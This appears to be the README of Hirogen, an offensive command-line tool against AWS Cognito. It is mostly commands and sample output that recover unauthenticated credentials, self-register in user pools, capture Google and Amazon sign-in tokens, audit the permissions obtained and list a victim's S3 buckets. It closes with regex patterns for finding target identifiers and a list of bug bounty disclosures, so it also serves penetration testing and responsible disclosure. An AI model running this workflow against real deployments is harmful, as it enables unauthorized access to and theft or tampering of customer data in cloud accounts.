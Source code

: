 # Hirogen

A federated identity attack tool for AWS Cognito.

## Quick Start:
Install the tool

```sh
git clone git@github.com:c6fc/hirogen.git
cd hirogen
npm install -g
```

Check for and recover unauthenticated credentials from Cognito User Pool:

```sh
hirogen get-unauthenticated us-west-2:ff6c3f28-fd22-402e-bee7-78b426522f99

[+] Credentials received. Your new identity is:
{
	...
}
```

Sometimes the Identity pool is set to block unauthenticated credentials
```sh
[*] Identity Pool exists, but unauthenticated credentials are not supported.
```

But that's OK! Check for and perform direct registration to Cognito User Pools:
```sh
hirogen check-clientid 3q47qusd82ot7nivggtl2ri6tf us-west-2_RXeMnFJo3
[+] This clientId allows direct registration!

hirogen register-user me@myema.il mYp@ssw0rd '{"phone":"+155551234567"}'
[+] Registration appears to have been successful. Subscriber: ff6c3f28-fd22-402e-bee7-78b426522f99
[*] You must validate your registration before you can log in. Use 'confirm-user' once you receive your code.
```

This means registration was successful, but that you need to verify your email. Check your email and get your verification code, and pass it to Hirogen:
```sh
hirogen confirm-user 123456
[+] Verification successful. You can now use 'login-user'
```

We'll now login and get creds for our user. Since we're using Cognito User pools, we specify 'cognito_idp' as the provider.
```sh
hirogen login-user
[+] Login successful.

hirogen get-credentials cognito_idp us-west-2:5e0d003d-f4bc-4768-8c4e-f589ba7559d0
[+] Credentials received. Your new identity is:
{
	...
}
```

## Support for multiple third-party identity providers

Hirogen can perform **page hollowing** to capture authentication tokens for Google Sign-in and Login with Amazon.

```sh
hirogen login-provider google 950667609206-oetjmj5buch3ekvjjd1mreptnaq3bjjp.apps.googleusercontent.com https://domain-with-google/sign-in.html
```

This pops open a Puppeteer browser window with a Google Sign-in prompt. After signing in, the window will close automatically, and you're ready to get credentials for this identity.

```
[+] Got google token

hirogen get-credentials google
[+] Credentials received. Your new identity is:
{
	...
}
```

## Using recovered credentials

Cool, you've got several ways to get the creds, but what do you do then?

For starters, try a quick permissions audit:
```sh
hirogen test-credentials cognito_idp
[-] ddb_ListTables
[-] ec2_DescribeInstances
[-] ec2_DescribeVPCEndpoints
[-] iam_ListRoles
[-] iam_ListUsers
[+] s3_ArbitaryWrite
[+] s3_ArbitraryListObjects
[+] s3_ArbitraryRead
[+] s3_ListBuckets
```

Looks like we have read, write, listObjects, and listBuckets! Let's inspect it! Using 'hirogen as <provider> <awscli commands...>' to pipe the credentials to the AWS CLI.
```sh
hirogen as cognito_idp s3 ls
2019-02-19 17:15:14 202-backup
2019-04-15 13:39:10 aws-training
2016-09-16 09:24:14 bio.myresume.com
2017-03-18 11:49:54 breakingbad
2017-06-11 20:53:18 callmemaybe
2016-09-15 16:18:41 dayinthelife-prod
2017-10-26 01:51:00 devpipeline-cicd
```

```sh
hirogen as cognito_idp s3 ls 202-backup
                 PRE server-backup/
```

## Using Workspaces
Hirogen stashes useful information persistently in a *workspace*. The default workspace is called 'hirogen', but you can create a new workspace and switch between them easily:

```sh
hirogen use c6fc
[+] Creating new empty workspace [c6fc]
[+] Workspace [c6fc] set as active

hirogen show c6fc
{ ... workspace contents ... }
```

Workspaces are all stored as plaintext JSON files in `~/.hirogen/`

## Parameter persistence and reuse
Interactions with Cognito require LOTS of parameters. Hirogen simplifies these interactions by using a natural workflow that tracks when a particular parameter succeeded in earlier calls, and uses them in subsequent ones. This means that if you follow a sensible approach, you can provide all these parameters piecemeal as you make your way through:

```sh
                       | --clientid |             | --userpoolid |
hirogen check-clientid 3q47qusd82ot7nivggtl2ri6tf us-west-2_RXeMnFJo3
[+] This clientId allows direct registration! # this client id and user pool are valid, so they are saved in the workspace.

                     | --username | | --password|
hirogen register-user me@myema.il    mYp@ssw0rd  # --clientid and --userpoolid are also required, but pulled from the workspace.
[+] Registration appears to have been successful. # Since it was a success, username and password are now also persisted

hirogen login-user # this requires all four of the above, which are all populated from the workspace.
[+] Login successful. # In the back-end, the login token is now saved to the workspace

                        | --provider | | --identitypoolid |
hirogen get-credentials cognito_idp    us-west-2:5e0d003d-f4bc-4768-8c4e-f589ba7559d0
[+] Credentials received. Your new identity is... # Now --provider and --identitypoolid are saved, along with the AWS keys!
```

Alternatively, you can jump straight to the command you want, as long as you provide all the necessary parameters:
```sh
hirogen register-user --username me@myema.il --password mYp@ssw0rd --clientid 3q47qusd82ot7nivggtl2ri6tf --userpoolid us-west-2_RXeMnFJo3
[+] Registration appears to have been successful. # now all four are saved!

hirogen login-user # the same four are now populated from the workspace
[+] Login successful.
```

If you forget (or just haven't run a prior command in this workspace yet) Hirogen will remind you:

```sh
hirogen login-user
[-] --clientid is required. Consider the command check-clientid <clientid> <userpoolid> to populate the workspace.
[-] --userpoolid is required. Consider the command check-clientid <clientid> <userpoolid> to populate the workspace.
```

## Setting defaults for subsequent campaigns
Hirogen lets you set reusable defaults to help speed up interactions across multiple workspaces. Defaults apply to Cognito Username, Password, Attributes, and Authflow.

```sh
hirogen set-default username me@mye.mailme@myema.il
[+] Set default username to [me@myema.il mYp@ssw0rd]

hirogen set-default password mYp@ssw0rd
[+] Set default username to [mYp@ssw0rd]

hirogen register-user
[+] Registration appears to have been successful. Subscriber: ff6c3f28-fd22-402e-bee7-78b426522f99

hirogen login-user
[+] Login successful.
```

Defaults are persisted in the 'core' storage, which can be inspected:

```sh
hirogen core
{
    "last_workspace": "c6fc",
    "defaults": {
        "username": "me@mye.mailme@myema.il",
        "password": "mYp@ssw0rd",
        "authflow": "USER_SRP_AUTH",
        "attributes": ""
    }
}
```

## Locating Cognito parameters
Most parameters used by Cognito and third-party auth sources have a pretty distinct convention, which can help when trying to locate the values you need to pass into Hirogen. Here's an example list:

--clientid: `<region>_[a-zA-Z0-9]{9}` e.g.: us-west-2_RXeMnFJo3  
--userpoolid: `[a-z0-9]{26}` e.g.: 3q47qusd82ot7nivggtl2ri6tf  
--identitypoolid: `<region>:<uuid>` e.g.: us-west-2:5e0d003d-f4bc-4768-8c4e-f589ba7559d0 # Note that Identity IDs and Identity Pool IDs both use this format.

Google Auth Tokens: `[0-9]{12}-[0-9a-z]{32}.apps.googleusercontent.com`  
Amazon AppID: `amzn1.application-oa2-client.[0-9a-f]{32}`


## Bug Bounties & Kudos

* A major manufacturer website exposed customer data: $3,000 paid
* A reputation management company exposed customer data, with writeable CI/CD pipeline and static site assets: Kudos
* A lifestyle and media company front-end Kubernetes cluster was accessible: Kudos
* A restaurant franchise website's static assets were modifiable: Kudos
* A staffing agency exposed applicant resumes: Kudos
* A gaming enthusiast website's static assets and leaderboards were modifiable: Kudos
* A celebrity's personal website allowed read-write to videos in s3: Kudos
* A psychology organization exposed training and example materials to self-registered cognito users: Kudos
* An AWS account belonging to an individual granted AdministratorAccess to self-registered Cognito users: Fixed, unacknowledged
* A clothing designer exposed order and customer information with modifiable CI/CD pipeline assets: Fixed, unacknowledged


Dozens of others have been notified but have not responded.